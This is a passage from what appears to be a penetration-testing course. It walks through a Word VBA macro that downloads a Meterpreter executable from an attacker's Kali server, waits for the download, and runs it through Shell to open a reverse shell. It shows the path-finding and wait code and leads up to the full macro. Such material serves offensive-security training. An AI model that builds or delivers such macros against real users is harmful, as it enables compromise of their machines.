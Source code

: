 > Listing 9 - VBA code to invoke the PowerShell download cradle

Before executing this code, we must place the Meterpreter executable (**msfstaged.exe**) on our Kali web server along with a multi/handler listener.

To execute the Meterpreter executable through VBA, we must specify the full path. Luckily, downloaded content will end up in the current folder of the Word document and we can obtain the path name with the [_ActiveDocument.Path_](https://docs.microsoft.com/en-us/office/vba/api/word.document.path) property:

```
Dim exePath As String
exePath = ActiveDocument.Path & "\" & "msfstaged.exe"
```

> Listing 10 - Getting file path from ActiveDocument.Path

Since we are downloading the Meterpreter executable from a web server and the download time may vary, we must introduce a time delay. Unfortunately, Microsoft Word does not have a _Wait_ or _Sleep_ VBA function like Excel, so we'll implement a custom _Wait_ method using a [_Do_ loop](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/doloop-statement) along with the [_Now_](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/now-function) and [_DateAdd_](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/dateadd-function) functions.

This will allow us to pass a _Wait_ parameter (measured in seconds) to pause the execution. To ensure that our _Wait_ procedure does not block Microsoft Word, each iteration calls [_DoEvents_](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/doevents-function) allowing Word to process other actions.

To do this, we'll retrieve the current date and time with the _Now_ function and save it to the _t_ variable. Then we'll use a _Do_ loop, which will work through the comparison declared in the _Loop Until_ statement.

```
Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

> Listing 11 - VBA wait method using dates

This code will continue to loop until the comparison is true, which happens when the current time (returned by _Now_) is greater than the time returned by the _DateAdd_ function. This function takes three arguments: a string expression that represents the interval of time (_s_), the number of seconds to wait (_n_), and the current time (_t_).

Simply stated, _n_ seconds are added to the time the loop starts and the result is compared to the current time. Once _n_ seconds have passed, the loop completes.

With our _Wait_ method implemented, we just need to invoke it and then execute the Meterpreter executable. To do that, we'll again use the _Shell_ function and call the _exePath_ we created.

Here's the complete VBA macro:
